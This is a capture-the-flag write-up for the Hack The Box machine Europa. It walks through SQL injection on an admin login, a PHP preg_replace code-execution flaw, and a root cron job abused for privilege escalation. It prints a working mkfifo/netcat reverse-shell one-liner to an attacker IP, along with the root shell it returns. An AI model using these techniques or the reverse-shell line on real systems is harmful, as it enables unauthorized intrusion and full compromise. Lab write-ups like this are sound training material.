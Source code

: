 nmap scan

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

### Enumerating port 80

There's the apache default page:

![image1](/assets/images/htb-europa/europa1.png)

### Enumerating port 443

I get the message *Warning: Potential Security Risk Ahead* and I check the certificate:

![image2](/assets/images/htb-europa/europa2.png)

There are 3 new vhosts, after continuing there's also a apache default page.

### Enumerating the vhosts

`europacorp.htb` and `www.europacorp.htb` are apache default page too, but `admin-portal.europacorp.htb` has a login:

![image3](/assets/images/htb-europa/europa3.png)

We can try sql injection.

### Exploiting SQL Injection on the login

I tried using `'-- -` on the password field but didn't succed, after, I tryed on the email and with a `'` I got a SQL error, then I used the `'-- -` and I can log in:

![image4](/assets/images/htb-europa/europa4.png)

And click on `Follow redirection`:

![image5](/assets/images/htb-europa/europa5.png)

### Enumerating admin dashboard

![image6](/assets/images/htb-europa/europa6.png)

On tools there's a openvpn config generator, I'll intercept the request when I generate a new configuration:

![image7](/assets/images/htb-europa/europa7.png)

So the `%22` are `/` that are used for regex, that will replace the `ip_address` with the value (if `ip_address=10.10.10.10`, everytime in the code there's `ip_address` it will be replaced by 10.10.10.10).

### Exploting the preg_replace vulnerability to get a reverse shell

There's a vulnerability with `preg_replace` that we can put code and it will be executed, what you have to do is add an `e` after the regex and then in the value replaced put php code:

![image8](/assets/images/htb-europa/europa8.png)

Now we can get a reverse shell:

![image9](/assets/images/htb-europa/europa9.png)

Set up a listener and you'll get the connection back.

### Privilege escalation

Viewing crontab there's a php script executed by root:

![image10](/assets/images/htb-europa/europa10.png)

It is executing some php code that executes another file: `/var/www/cmd/logcleared.sh`, this file doens't exisists so I'll will create it and put a reverse shell:

```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 9008 >/tmp/f
```

And give perms:

```bash
chmod 777 /var/www/cmd/logcleared.sh
```

It is running by root, so I'll get the reverse shell as root:

```bash
nc -lvnp 9008                                                                 
listening on [any] 9008 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.22] 43884
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
